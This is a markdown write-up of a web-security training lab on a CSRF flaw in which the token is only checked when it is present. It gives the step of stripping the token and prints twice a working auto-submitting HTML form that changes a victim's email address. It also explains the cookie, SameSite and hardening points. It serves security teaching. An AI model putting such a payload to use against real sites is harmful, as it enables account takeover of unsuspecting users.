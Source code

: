 # CSRF where token validation depends on token being present

*A concise write‑up using my original steps (verbatim flow) with small, accurate notes. Authorized lab use only.*

---

## 🎯 Goal
**Change another user’s email address even though the endpoint advertises a CSRF token.**

---

## ✅ My Exact Steps (verbatim, lightly corrected)

1. **GOAL:** change other users email, protected by csrf token.  
2. Log in with the provided creds and intercept the change‑email request: **`/my-account/change-email`**.  
3. **Remove the `csrf` token parameter** → the request is **still valid** (no enforcement).  
4. Build an **auto‑submitting form** to deliver to the victim:
   ```html
   <form id="ex" action="https://0a8100ea048286fc806403ce00ee00b6.web-security-academy.net/my-account/change-email" method="POST">
     <input name="email" value="email@gmail.com">
   </form>

   <script>document.getElementById("ex").submit()</script>
   ```
5. **Lab solved!** ✅

---

## 🧠 Why This Works (minimal notes)
- The application includes a `csrf` parameter but **doesn’t actually validate** it. When the victim loads your page, the browser **sends their cookies** with the cross‑site form POST, authenticating the change.
- **CORS** isn’t involved: CSRF uses **HTML forms**, which the browser submits cross‑site without needing CORS; we don’t need to read the response, only trigger it.
- **SameSite** considerations: in many labs cookies are `SameSite=None; Secure` (or unset), so cross‑site POSTs include cookies. Hardened apps should use **tokens + Origin/Referer checks** and appropriate `SameSite` values.

---

## 🧾 Raw exploit (kept exactly)
```html
<form id="ex" action="https://0a8100ea048286fc806403ce00ee00b6.web-security-academy.net/my-account/change-email" method="POST">
  <input name="email" value="email@gmail.com">
</form>

<script>document.getElementById("ex").submit()</script>
```

---

## 🏁 Result
- Even with a token parameter present, **no validation** allowed a standard CSRF auto‑submit attack to change the victim’s email. **Solved. ✅**
